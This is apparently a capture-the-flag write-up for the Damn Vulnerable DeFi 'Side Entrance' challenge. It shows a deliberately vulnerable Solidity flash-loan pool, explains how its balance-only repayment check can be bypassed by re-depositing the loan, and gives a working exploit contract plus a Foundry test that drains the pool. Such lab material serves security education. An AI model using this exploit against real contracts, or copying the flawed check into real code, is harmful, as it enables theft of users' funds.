

# Side Entrance
---
```
A surprisingly simple pool allows anyone to deposit ETH, and withdraw it at any point in time.

It has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.

Starting with 1 ETH in balance, pass the challenge by taking all ETH from the pool.
```

## Code
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "solady/src/utils/SafeTransferLib.sol";

interface IFlashLoanEtherReceiver {
    function execute() external payable;
}

/**
 * @title SideEntranceLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract SideEntranceLenderPool {
    mapping(address => uint256) private balances;

    error RepayFailed();

    event Deposit(address indexed who, uint256 amount);
    event Withdraw(address indexed who, uint256 amount);

    function deposit() external payable {
        unchecked {
            balances[msg.sender] += msg.value;
        }
        emit Deposit(msg.sender, msg.value);
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        
        delete balances[msg.sender];
        emit Withdraw(msg.sender, amount);

        SafeTransferLib.safeTransferETH(msg.sender, amount);
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        if (address(this).balance < balanceBefore)
            revert RepayFailed();
    }
}
```

## Observation
The contract realize a lender pool , and have a free flashloan, one interface.

There are there function:`deposit()`,`withdraw()`,`flashloan()`.

The Vuln is in flashloan function:
```
function flashLoan(uint256 amount) external {
	uint256 balanceBefore = address(this).balance;

	IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

	if (address(this).balance < balanceBefore) revert RepayFailed();
}
```
especially`if (address(this).balance < balanceBefore) revert RepayFailed();` 
it only check the contract.balance !!! 

so if we use flashloan first , then we deposit it to the contract . The balanceof(pool) didn't change . we Pass the check !!!

after all , we can call withdraw() to make balanace become zero.
## Attack
`Exp.sol`:
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "./SideEntranceLenderPool.sol";

contract Exp {
    SideEntranceLenderPool pool;
    address public owner;

    constructor(address _pool) {
        pool = SideEntranceLenderPool(_pool);
        owner = msg.sender;
    }

    receive() external payable {
        payable(owner).transfer(msg.value);
    }

    function attack(uint256 amount) external payable {
        pool.flashLoan(amount);
    }

    function execute() external payable {
        uint256 value = msg.value;
        // deposit
        pool.deposit{value: value}();
    }

    function withdraw() external {
        pool.withdraw();
    }

    function getOwner() public view returns (address) {
        return owner;
    }
}
```

`Attack.t.sol`:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../../lib/forge-std/src/Test.sol";
import "../../src/4-side-entrance/Attacker.sol";
import "../../src/4-side-entrance/SideEntranceLenderPool.sol";

contract SideTest is Test {
    SideEntranceLenderPool pool;
    Exp exp;
    address attacker;
    uint256 internal constant INITIAL_Value = 1000e18;
    uint256 internal constant INITIAL_HACKER_BALANCE = 1e18;

    function setUp() public {
        pool = new SideEntranceLenderPool();
        vm.deal(address(pool), INITIAL_Value);
        vm.deal(attacker, INITIAL_HACKER_BALANCE);
    }

    function testValue() public {
        console.log("pool balance: ", address(pool).balance);
        console.log("attacker balance: ", address(attacker).balance);
    }

    function testOwner() public {
        vm.startPrank(attacker);
        exp = new Exp(address(pool));
        address owner = exp.getOwner();
        assertEq(address(owner), address(attacker));
    }

    function testAttacke() public {
        vm.startPrank(attacker);
        exp = new Exp(address(pool));
        exp.attack(1000e18);
        exp.withdraw();
        assertEq(address(pool).balance, 0);
    }
}
```


